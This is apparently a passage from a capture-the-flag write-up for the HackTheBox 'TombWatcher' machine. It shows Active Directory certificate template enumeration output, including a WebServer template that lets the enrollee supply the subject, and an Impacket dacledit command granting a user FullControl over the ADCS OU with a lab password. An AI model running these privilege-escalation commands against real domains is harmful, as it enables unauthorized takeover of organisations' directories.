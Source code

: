                                               Secure Email
                                              Client Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Domain Users
                                              TOMBWATCHER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : TOMBWATCHER.HTB\Enterprise Admins
            Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins
            Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                              TOMBWATCHER.HTB\Enterprise Admins


```sh
  4
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Principals       : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins

```sh
/opt/venv/bin # dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=AD
CS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password1234!'
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250608-092213.bak
```